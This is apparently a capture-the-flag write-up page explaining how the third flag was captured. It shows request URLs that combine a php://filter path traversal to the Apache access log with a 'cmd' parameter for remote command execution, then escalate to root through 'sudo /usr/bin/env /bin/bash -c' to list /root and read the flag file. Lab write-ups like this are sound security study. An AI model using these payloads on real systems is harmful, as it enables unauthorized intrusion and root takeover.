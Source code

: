 [< Back](../../README.md)

(I actually found this flag before flag2)

By using the RCE `cmd` query payload technique, we can try to see what the current user can do using sudo

```
view-source:http://[IP]/
  ?end=
  &view=
    php://filter/resource=teks/../../../../var/log/apache2/access.log
  &cmd=sudo+-l
```
<p><img src="src/root/sudo_l.jpg" width="750"></p>

We can use `sudo env`, this is very interesting, we have a pretty easy privilege escalation. Let's check `/root`'s content

```
[...]
  &cmd=sudo+/usr/bin/env+/bin/bash+-c+'ls+-la+/root'
```
<p><img src="src/root/cat.jpg" width="750"></p>

And here is the flag.

```
[...]
  &cmd=sudo+/usr/bin/env+/bin/bash+-c+'cat+/root/flag3.txt'
```
<p><img src="src/root/flag.jpg" width="750"></p>

